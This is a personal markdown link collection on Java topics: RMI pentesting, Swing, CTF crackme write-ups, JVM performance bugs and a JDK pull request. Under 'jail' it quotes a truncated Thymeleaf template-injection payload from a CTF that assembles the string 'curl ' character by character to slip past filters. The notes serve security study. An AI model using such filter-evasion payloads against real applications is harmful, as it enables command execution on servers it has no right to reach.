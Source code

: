 # remote method invocation (RMI)

https://medium.com/@afinepl/java-rmi-for-pentesters-part-two-reconnaissance-attack-against-non-jmx-registries-187a6561314d

# GUI

- [Java Swing Tutorial \- javatpoint](https://www.javatpoint.com/java-swing)

# jail

- https://github.com/w181496/CTF/tree/master/wctf2020/thymeleaf
	```
	(0).toString().charAt(0).toChars(99)%5b0%5d.toString()+(0).toString().charAt(0).toChars(117)%5b0%5d.toString()+(0).toString().charAt(0).toChars(114)%5b0%5d.toString()+(0).toString().charAt(0).toChars(108)%5b0%5d.toString()+(0).toString().charAt(0).toChars(32)%5b0%5d.toString()+
	```

# case studies

### ctf

- [Solving warsaw&\#8217;s Java Crackme 3 &\#8211; ReWolf&\#039;s blog](http://blog.rewolf.pl/blog/?p=856)
- [crackmes\.one: noverify's GraxCode's Java CrackMe 1 \- nullsecurity\.org/articles](http://www.nullsecurity.org/article/crackmes_one_noverify_graxcode_java_crackme_1)
- [Solving Java Reversing Challenges \- Noverify&\#39;s Crackme 3](https://mrt4ntr4.github.io/Noverify-Java-Crackme-3/)

### performance

- `corePoolSize=0` causes worker queue busy polling
	- [100% CPU: My Fault?](https://josephmate.github.io/2021-10-03-my-bug-used-up-100cpu-or-did-it/)
	- [\(JDK\-8129861\) High processor load for ScheduledThreadPoolExecutor with 0 core threads \- Java Bug System](https://bugs.openjdk.java.net/browse/JDK-8129861)
- [Java vs\. Scala: Divided We Fail](https://shipilev.net/blog/2014/java-scala-divided-we-fail/)

- [Vanilla Java](http://vanillajava.blogspot.com/)
- [Mechanical Sympathy](https://mechanical-sympathy.blogspot.com/)

### jdk

- [8292983: ModuleReferenceImpl\.computeHash should record algorithm for cache checks by shipilev · Pull Request \#10044 · openjdk/jdk · GitHub](https://github.com/openjdk/jdk/pull/10044)
